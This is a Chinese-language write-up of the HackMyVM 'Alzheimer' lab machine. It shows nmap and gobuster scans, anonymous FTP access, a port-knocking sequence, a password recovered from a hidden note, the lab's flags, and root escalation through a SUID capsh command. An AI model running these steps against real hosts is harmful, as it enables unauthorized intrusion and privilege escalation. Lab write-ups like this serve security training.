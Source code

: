 ```yaml
---
{"dg-publish":true,"tags":["HMV","SUID提权","knock"],"难度":"😅","作者":"sml","permalink":"/24-渗透/HMV/9.Alzheimer/","dgPassFrontmatter":true,"noteIcon":"2","created":"2024-11-22T19:13:18.856+08:00"}
---
```



## 1. 基本信息^toc

- [[24-渗透/HMV/9.Alzheimer#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/9.Alzheimer#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/9.Alzheimer#3. ftp匿名登录\|3. ftp匿名登录]]
- [[24-渗透/HMV/9.Alzheimer#4. 提权\|4. 提权]]

```
靶机链接：https://hackmyvm.eu/machines/machine.php?vm=Alzheimer
```


```
作者：sml
```

```
难度：死题
```


```
知识点：knock命令、SUID提权（capsh）
```

## 2. 信息收集

端口扫描

```Bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.11 -p 1-65535
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 23:23 CST
Nmap scan report for 192.168.9.11
Host is up (0.00034s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE    SERVICE
21/tcp open     ftp
22/tcp filtered ssh
80/tcp filtered http
MAC Address: 08:00:27:93:BB:DC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 9.18 seconds
```
对80 22进行了限制

## 3. ftp匿名登录

```Bash
ftp 192.168.9.11
anonymous
```
里面有一个.secretnote.txt 文件

查看

```Bash
cat .secretnote.txt 
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
```
解密 

意思是我们需要访问这3000个端口 然后就会有一个服务打开

依次访问这些端口

```Bash
knock 192.168.9.11 1000 2000 3000 -v
```
然后重新扫描一下

```Bash
┌──(root㉿kali)-[/home/kali]
└─# nmap -sS 192.168.9.11 -p 1-65535
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-05 23:30 CST
Nmap scan report for 192.168.9.11
Host is up (0.00023s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:93:BB:DC (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```
可以发现22 80都开放了

访问网站

啥都没有

直接扫目录

```Bash
┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://192.168.9.11/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.9.11/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/home                 (Status: 301) [Size: 185] [--> http://192.168.9.11/home/]
/admin                (Status: 301) [Size: 185] [--> http://192.168.9.11/admin/]
/secret               (Status: 301) [Size: 185] [--> http://192.168.9.11/secret/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```
> 敲了半天开不了门。目录访问不了。后面看wp发现是网卡问题

这里直接给flag

```Bash
root@alzheimer:~# cat /root/root.txt
HMVlovememories
root@alzheimer:~# cat /home/medusa/user.txt
HMVrespectmemories
root@alzheimer:~# 
```
还是看下题目的考点吧。

敲门成功后访问网站根目录

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.001.png)

下面应该是一个摩斯密码

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.002.png)

```Bash
OTHINGM
```
这个应该就是medusa的密码了

但是是不对的

继续看网站的其他目录

admin目录是空的

home目录下的文件提示我们pass在Home目录，但不是这个home目录

secret目录提示我们密码在这个secret目录的某个目录下

那密码就是在/secret/home目录

/secret/home目录的文件给了个啥用没有的提示

根目录给我们说他将密码写入了一个.txt文件

到目前为止，唯一获取到的.txt文件就是.secretnote.txt

```Bash
I need to knock this ports and 
one door will be open!
1000
2000
3000
Ihavebeenalwayshere!!!
```
里面的Ihavebeenalwayshere!!! 就是medusa的密码

## 4. 提权

虽然flag有了，但还是看看提权部分吧

拿到用户medusa的权限后

```Bash
medusa@alzheimer:/root$ find / -perm -4000  2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/sbin/capsh
```


```Bash
capsh --gid=0 --uid=0 --
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/9.Alzheimer.003.png)


